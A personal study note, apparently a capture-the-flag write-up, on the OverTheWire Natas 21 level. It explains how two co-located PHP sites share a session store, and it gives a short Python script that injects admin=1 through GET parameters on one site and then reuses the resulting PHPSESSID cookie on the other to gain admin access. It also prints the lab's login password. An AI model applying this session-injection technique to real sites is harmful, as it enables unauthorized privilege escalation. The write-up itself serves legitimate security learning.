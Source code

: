 
2024-07-22 16:21

Source: #natas #web #py 

Tags: [[PHP]] 

- we have 2 domains 
- 1st domain 
	- only calls the print flag function and has text that mentions the other domain 
- 2nd domain 
	- if they submit to the page, every single key in the requests is actually stored in session. 
- by setting debug = true and submit = 1 in the `get` request we get to know that it's gonna read the `get` variables just as well as it would have read the `post` variable
- since the websites are collocated the session id is assumed to not change
we need the same session already occurring similar to [[PHPSESSID & session handler w py]] Natas20

```
import requests
username = 'natas21'
password = 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH'

url = 'http://natas21.natas.labs.overthewire.org/?debug=true'

experiment = 'http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'

session = requests.Session()

 # Getting the cookie from experiment domain we declare admin = 1 in `get` request in the url this can also be done via `post` method

response = session.get(experiment,auth=(username,password))
old_cookie = session.cookies["PHPSESSID"]

# using previously aquired session cookie in the main domain

responses = session.get(url,cookies= {"PHPSESSID" :old_cookie},auth=(username,password))
print(responses.text)
```
### TLDR

- We are forcing admin = 1 on experiment domain to get the session cookie of an admin account 
- since the session id is same for both the domains we copy the cookie from the experiment domain and use it in the main url to become admin and get the flag 

### References
https://www.youtube.com/watch?v=iFgQyI3Vfag
